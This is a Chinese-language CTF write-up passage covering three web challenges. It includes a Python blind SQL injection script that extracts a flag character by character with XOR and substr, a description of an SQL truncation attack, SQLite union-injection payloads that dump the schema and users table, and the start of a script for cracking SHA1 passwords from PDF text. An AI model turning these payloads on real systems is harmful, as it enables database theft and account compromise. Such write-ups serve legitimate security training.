 ## ciscn_2019_northern_china_day2_web1 Hack World

第二次做这题，fuzz一下发现空格以及一些关键字被过滤，用异或，0^1=1，?id=1时返回正确response

```
import requests
import time

url = "http://172.16.4.116:8302/index.php"

payload={'id':'1'}

temp = ''
for i in range(1, 2):
    for p in range(32, 126+1):
        payload['id'] = "0^" + "(ascii(substr((select(flag)from(flag)),{0},1))={1})".format(i,p)
        print(payload['id'])
        html = requests.post(url,data=payload).text
        # print(html)
        if 'Hello' in html:
            temp += chr(p)
            print(temp)
            break
print(temp)
```

## fbctf_2019_products_manager

sql约束攻击

通过调节字节长度，注册超过源码规定的长度的name从而达到覆盖的效果，但是本地复现失败，在于描述字段会覆盖原有flag


## FlatScience(攻防世界)

1. login.php?debug出现源码，login.php的username存在注入点，单引号注入，这里是sqlite数据库，payload:构造usr=' union select name,sql from sqlite_master--+&pw=，在cokkie里可以看见sql原句

![image](http://note.youdao.com/yws/res/1419/554A808F40374025882FC53C3E002236)

2.
usr=%27 UNION SELECT id, id from Users limit 0,1--+&pw=chybeta 查询出name,再查询出password等

3. 这里的password是用sha1加密，hint提示密码藏在pdf里
4. 写脚本爬取站点所有pdf,sha1密码碰撞

```
from cStringIO import StringIO
from pdfminer.pdfinterp import PDFResourceManager, PDFPageInterpreter
from pdfminer.converter import TextConverter
from pdfminer.layout import LAParams
from pdfminer.pdfpage import PDFPage
import sys
import string
import os
import hashlib
 
def get_pdf():
	return [i for i in os.listdir("./") if i.endswith("pdf")]
 
 
def convert_pdf_2_text(path):
    rsrcmgr = PDFResourceManager()
    retstr = StringIO()
    device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
    interpreter = PDFPageInterpreter(rsrcmgr, device)
```